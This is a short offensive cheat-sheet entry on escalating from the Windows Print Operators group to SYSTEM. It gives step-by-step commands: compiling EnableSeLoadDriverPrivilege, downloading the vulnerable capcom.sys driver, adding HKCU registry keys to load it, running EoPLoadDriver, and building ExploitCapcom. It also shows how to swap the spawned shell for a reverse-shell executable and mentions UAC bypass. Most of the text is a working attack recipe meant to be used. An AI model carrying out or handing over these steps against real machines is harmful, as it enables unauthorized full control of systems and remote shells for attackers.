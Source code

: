### Print Operators

**Note this attack does not work after Windows 10 Version 1803 since you can't include references to registry keys under HKCU anymore**

Has the `SeLoadDriverPrivilege` which can be abused to elevate to SYSTEM. This might be blocked by UAC so check out the UACMe repo to bypass. With this privilege, we can use the driver `capcom.sys` to execute arbitrary shellcode as SYSTEM.

To load capcom, we can use this tool which enables the privilege and loads the capcom driver, but first we need to add the below headers to the top of the tool file. https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp

```
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```

We can then compile this C++ tool with a Windows C++ compiler `cl.exe`:

```
C:\> cl.exe /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```

Now download the `capcom.sys` driver from here: https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys and save it to a location.

Next we need to edit the registry to add the path of the capcom driver to be loaded:

```
C:\> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\PATH\TO\Capcom.sys"
C:\> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```

Then load the driver:

```
C:\> EnableSeLoadDriverPrivilege.exe
```

\*\* All of the steps up until this point can be automated using EoPLoadDriver \*\*
- https://github.com/TarlogicSecurity/EoPLoadDriver/
- `.\EoPLoadDriver.exe System\CurrentControlSet\Capcom C:\PATH\TO\Capcom.sys`

Finally, download https://github.com/tandasat/ExploitCapcom tool and compile with Visual Studio and run it for a SYSTEM shell. This will pop open a new shell in the GUI.
- If we do not have access to a GUI, then we can alter the followingf line in the ExploitCapcom.cpp file:
  ```
  TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
  ```
  to a reverse shell instead
  ```
  TCHAR CommandLine[] = TEXT("C:\\PATH\\TO\\REVSHELL.EXE");
  ```
